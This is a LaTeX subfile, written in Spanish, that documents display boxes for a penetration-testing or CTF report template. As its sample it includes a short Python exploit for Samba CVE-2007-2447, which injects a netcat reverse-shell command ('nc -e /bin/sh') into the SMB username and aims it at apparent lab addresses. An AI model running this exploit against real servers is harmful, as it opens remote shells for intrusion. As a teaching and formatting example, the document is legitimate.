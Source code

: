 \documentclass[../../main_compilation.tex]{subfiles}
\begin{document}
\subsection{Terminal de Comandos (\texttt{terminal})}
Entorno diseñado para mostrar trazas de consola, escaneos Nmap, respuestas de terminal y comandos interactivos:



\subsection{Cajas de Código y Exploits (\texttt{codebox}, \texttt{pythonbox}, \texttt{bashbox})}
Permiten incrustar exploits o scripts personalizados con números de línea y resaltado de sintaxis:

\begin{pythonbox}{Exploit Samba CVE-2007-2447}
	import sys
	from smb.SMBConnection import SMBConnection

	def trigger_rce(target_ip, lhost, lport):
	payload = f"nohup nc -e /bin/sh {lhost} {lport} &"
	username = f"/=`{payload}`"
	conn = SMBConnection(username, "", "attacker", "target", use_ntlm_v2=False)
	conn.connect(target_ip, 445, timeout=5)

	if __name__ == "__main__":
	trigger_rce("10.10.10.3", "10.10.14.5", 4444)
\end{pythonbox}

\subsection{Cajas de Alerta y Análisis de Vulnerabilidad}
\begin{vulnbox}{Ejecución Remota de Comandos (CVE-2007-2447)}
	La versión de Samba 3.0.20 permite la ejecución de comandos arbitrarios en el servidor debido a la falta de sanitización en el parámetro \texttt{username map script} en transacciones MS-RPC.
\end{vulnbox}
\end{document}

